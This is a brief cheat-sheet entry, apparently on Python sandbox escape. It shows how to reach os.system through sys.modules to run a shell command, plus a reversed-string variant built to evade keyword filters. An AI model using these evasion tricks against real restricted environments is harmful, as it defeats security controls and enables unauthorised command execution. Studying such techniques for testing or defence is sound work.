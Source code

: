 # Access Modules

```python
import sys

sys.modules['os'].system('id')
```

The modules can be invoked with obfuscation.

```python
import sys

getattr(sys.modules['so'[::-1]], 'metsys'[::-1])('id')
```